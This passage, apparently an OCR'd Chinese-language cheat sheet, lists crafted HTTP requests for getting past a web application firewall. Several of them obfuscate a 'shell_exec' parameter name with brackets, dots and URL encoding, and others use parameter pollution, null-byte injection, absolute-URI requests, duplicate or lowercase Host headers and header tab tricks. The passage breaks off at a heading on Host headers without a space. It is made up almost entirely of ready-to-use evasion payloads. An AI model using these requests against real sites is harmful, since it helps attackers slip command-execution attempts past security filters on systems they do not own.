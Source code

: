             **请求头后面加tab(IIS)**

            ```
                GET /login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **GET /login?shell_exec HTTP/1.1**

            ```
            GET /login?shell.exec HTTP/1.1
            GET /login?shell[exec HTTP/1.1
            GET /login?shell%5bexec HTTP/1.1
            GET /login?shell%2eexec HTTP/1.1
            GET /login?shell%5fexec HTTP/1.1
            GET /login?shell%20exec HTTP/1.1
            ```

            **GET /login.php?pam_param=test3**

            ```
            GET /login.php?pam_param=test1&pam[param=test2&pam%5bparam=test3
            ```

            **GET /login.php?hello=world HTTP/1.1**

            ```
            GET /login.php?hello%00another_text=world HTTP/1.1
            ```

            **HTTP Request - 绝对地址**

            ```
            GET http://localhost/login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **双HOST头**

            ```
            GET /login.php HTTP/1.1
            Host: favoritewaf.com
            Host: localhost
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **Host 小写**

            ```
            GET /login.php HTTP/1.1
            host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **Host 不加空格**
